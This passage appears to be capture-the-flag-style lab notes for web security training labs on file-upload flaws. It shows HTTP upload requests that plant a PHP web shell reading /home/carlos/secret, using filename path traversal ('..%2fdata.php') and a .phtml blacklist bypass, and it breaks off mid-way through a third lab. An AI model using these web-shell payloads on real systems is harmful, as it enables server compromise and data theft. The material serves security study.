 This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret.

**My-account -> Login -> Upload Avatar**

```
POST /my-account/avatar HTTP/1.1
...
Content-Disposition: form-data; name="avatar"; filename="..%2fdata.php"
Content-Type: application/x-php

<?php echo file_get_contents("/home/carlos/secret"); ?>
```

* `GET /files/avatars/..%2fdata.php HTTP/1.1`&#x20;
* `GET /files/data.php HTTP/1.1`

### Lab: Web shell upload via extension blacklist bypass

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret.

**My-account -> Login -> Upload Avatar**

**Error:**

Sorry, php files are not allowed Sorry, there was an error uploading your file.

**Intruder Attack ->** Just php extension blocked, not others

```
POST /my-account/avatar HTTP/1.1
...
Content-Disposition: form-data; name="avatar"; filename="data.phtml"
Content-Type: application/x-php

<?php echo file_get_contents("/home/carlos/secret"); ?>
```

`GET /files/data.phtml HTTP/1.1`

### Lab: Web shell upload via obfuscated file extension

This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed using a classic obfuscation technique.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file /home/carlos/secret.

**My-account -> Login -> Upload Avatar**

**Error:**
